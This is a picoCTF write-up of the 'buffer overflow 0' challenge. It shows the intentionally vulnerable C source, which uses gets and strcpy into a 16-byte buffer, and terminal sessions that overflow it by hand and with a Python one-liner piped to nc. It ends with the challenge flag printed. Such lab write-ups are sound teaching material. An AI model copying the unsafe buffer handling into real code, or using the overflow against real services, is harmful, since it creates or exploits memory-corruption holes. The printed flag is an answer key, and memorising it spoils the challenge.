 # Binary Exploitation  

## buffer overflow 0  

<img width="437" alt="image" src="https://github.com/user-attachments/assets/0078a210-2430-4c15-a763-79d5637f74eb" />  

The program given was:   
```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <signal.h>

#define FLAGSIZE_MAX 64

char flag[FLAGSIZE_MAX];

void sigsegv_handler(int sig) {
  printf("%s\n", flag);
  fflush(stdout);
  exit(1);
}

void vuln(char *input){
  char buf2[16];
  strcpy(buf2, input);
}

int main(int argc, char **argv){
  
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }
  
  fgets(flag,FLAGSIZE_MAX,f);
  signal(SIGSEGV, sigsegv_handler); // Set up signal handler
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);


  printf("Input: ");
  fflush(stdout);
  char buf1[100];
  gets(buf1); 
  vuln(buf1);
  printf("The program will exit now\n");
  return 0;
}
```  

A **buffer** is any **temporary storage space in memory** where data(which is usually user input) can be stored.  
Since they hold user input, when an attacker inputs some data that is outside the buffer space, mistakes can be made, allowing an attacker to _overwrite other data_.  
This is called **Buffer Vulneralibility**.  

In this challenge, we had to deal with the given size of the buffer variable `buf2`, and simply had to input some value of size **more than 16 bytes**.   
Also, `strcpy` doesn't check any boundaries, which allows us to overflow it if our input is longer than 16 bytes.    
Observing next, since `gets` also reads input till newline, we can again overflow the `buf1` buffer (**100 bytes**) to control the memory beyond it.  

Initially, I tried to input some random strings, to which it just exited the program. On running the program, it showed:     
```
root@DESKTOP-0QGCC7M:/mnt/c/Users/Laptop/Downloads# gcc -o vuln vuln.c
root@DESKTOP-0QGCC7M:/mnt/c/Users/Laptop/Downloads# ./vuln
root@DESKTOP-0QGCC7M:/mnt/c/Users/Laptop/Downloads# ./vuln
Input: yes
The program will exit now
root@DESKTOP-0QGCC7M:/mnt/c/Users/Laptop/Downloads# ./vuln
Input: djwhdwohiwfhciedjiwfjwjfejfejwfe
*** stack smashing detected ***: terminated
Aborted (core dumped)
```

So I started the instance and tried to enter something more than 16 bytes.  
```
root@DESKTOP-0QGCC7M:/mnt/c/Users/Laptop/Downloads# nc saturn.picoctf.net 63835
Input: jdeiufeucnejnejfnecsnfcnediwejcfniewkncfedf
picoCTF{ov3rfl0ws_ar3nt_that_bad_c5ca6248}  
```

Found the flag:  
**`picoCTF{ov3rfl0ws_ar3nt_that_bad_c5ca6248}`**  

_One more way_ I tried was to print something muliplied by some integer in a way that it would become more than 16 bytes.  
I used here Python to exploit.  
```  
root@DESKTOP-0QGCC7M:/mnt/c/Users/Laptop/Downloads# python3 -c "print('P' * 24 + 'Q' * 8)" | nc saturn.picoctf.net 63835
Input: picoCTF{ov3rfl0ws_ar3nt_that_bad_c5ca6248}  
```

Here, `'P' * 24` fills the memory, while `'Q' * 8` helps in overflow.   












